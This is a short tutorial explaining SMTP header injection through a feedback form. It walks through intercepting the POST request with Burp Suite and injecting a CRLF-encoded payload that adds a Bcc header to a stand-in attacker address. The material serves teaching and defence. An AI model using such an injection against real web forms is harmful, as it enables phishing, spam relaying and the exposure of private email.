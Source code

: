 
SMTP header injection is a technique that is used by attacker to exploit the mail and web servers of the application when the input is not sanitized carefully, it allows the attacker to send emails to other user, the attacker may attach phishing emails, or any dangerous script.  As emails sometimes contains private information that can be a disaster for a company if an unauthorized person can read that information.

For example: An application that uses requests of the following form to submit feedback:
```
POST feedback.php HTTP/1.1
Host: geeksforgeeks.com
Content-Length: 56
From=username@gmail.com&Subject=Site+feedback&Message
=love+geeksforgeeks
```

After submitting the input, the web application to perform an SMTP procedure by using following commands:
```
MAIL FROM:username@gmail.com
RCPT TO:feedback@geeksforgeeks.com
DATA
From: username@gmail.com
To:feedback@geeksforgeeks.com
Subject:Site feedback
love geeksforgeeks
.
```

**NOTE:** The “.” after the message is the end of that particular message.

- **MAIL FROM:** It used to set the sender.
- **RCPT TO:** This command is containing all the recipient email addresses.
- **DATA:** This contains the email data.

### **Exploiting The STMP Header to Perform SMTP Header Injection:**

- **Step 1:** Fill the details in the feedback form as show in above example of SMTP.
- **Step 2:** Intercept the request that you made by any intercepting tool like Burp Suite.
- **Step 3:**  Inject the malicious input in that capture request.

**Example**:      
```
POST feedback.php HTTP/1.1
Host: geeksforgeeks.com
Content-Length: 56
From=username@gmail.com%0d%0a 
bcc:attackername%40attacker.com&Subject=Site+feedback&Message
=love+geeksforgeeks 
```

**Note:** “%0a” used for a new line, it is an encoded form of “\n”.

- **Step 4**: Now send the injected request as shown in above box.


Thanks to: geeksforgeeks.org